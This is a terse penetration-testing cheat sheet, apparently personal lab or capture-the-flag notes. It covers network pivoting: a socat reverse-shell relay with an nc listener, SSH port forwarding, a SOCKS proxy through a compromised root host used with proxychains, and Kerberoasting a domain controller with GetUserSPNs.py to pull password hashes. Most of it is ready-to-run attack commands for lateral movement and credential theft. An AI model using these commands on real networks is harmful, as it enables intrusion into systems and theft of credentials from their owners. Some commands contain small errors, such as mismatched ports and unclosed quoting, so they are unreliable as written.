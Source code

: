 ### Socat
- Reverse Shell Relay
  - localhost
    - `nc -lvnp 443` this needs started first
  - target
    - `./socat tcp-l:8000 tcp:localip:443 &`
  - 8000 is the port we want the traffic to relay to and 443 is the port were connecting to
 
### SSH
  -  Port Forwarding
    -  If want to connect to a webpage that dont have access to but have access to another comp on its network
      - `ssh -L 800:10.10.10.10:80 user@10.10.10.5 -fN`
    - navigate to `localhost:8000`
      - Example assumes SSH access to 10.10.10.5 and webserver on 10.10.10.10
    - `ssh -L 8000:10.10.10.10 user@10.0.0.12 -fN`
      - above example assumes we have access 10.0.0.12 and there is a webserver running on 10.10.10.10
      - fN backgrounds the shell and indicates just set up connection and not exectute a command
  - Proxy
    - `ssh -D 8000 user@target.thm -fN`
    - Can also use 1337 as a port. It will open up a port 1337 on localhost to act as a proxy and send data through into the protected network. This is used with proxychains.
      - Make sure proxychains config file set up correctly
     
## Overview
- Access to target machine 1
  - ip a
  - potenitally identify another IP address (dual home)
    - couldn't previously ping to it due to no route to it
    - **Next Steps:**
      - Pivot through IP with access to IP without access
      - Use network we have access to (NIC1) to access (NIC2)
        - Ideal method
        -  set up a proxy and pivot through it 
        - ssh into IP we have compromised
          - `ssh -i pivot root@10.10.155.10
          - `ip a` shows us another NIC with IP 10.10.10.5
          - Cant access this network so need to pivot through 10.10.155.10 NIC1 to access 10.10.10.5 NIC2
          - review proxychain file
            - `cat /etc/proxychains4.conf
            - find or update port were socks4 to
              - socks4 127.0.0.1 9050
                - 9050 is the port were going to bind to. can be updated as needed
            - ssh into 10.10.155.10 via this port
            - **`ssh -f -N -D 9050 -i pivot root@10.10.155.10`**
              - This is the key connection needed for us to move forward with proxychains commands thorugh this NIC2. Connection will minimize and we can proxy our access
            - utilize proxychains to to run nmap, kerberose, firefox, xfreerdp, etc
            - *kerberoast* attack thorugh proxy chains is ideal
            - scan domain ip to ensure kerbroast port 88 open (should be if its domain controller)
              - `proxychains nmap -p88 10.10.10.225`
              - `proxychains GetUserSPNs.py domain.local/username:Password -dc -ip 10.10.10.225 -request`
                - should get some hashes back
            - if rdp os open we can access the machine directly
              - `proxychains xfreerdp /u:administrator /p:'Password' /v:10.10.10.225
            - any webpages this NIC2 may have access to we can also access through proxychains
            - `proxychains firefox`
          - **in general run a ping sweep through proxychains to see what is open then can nmap those and use -sT if its not working since connect scan will sometimes work where SIN scan doesnt**

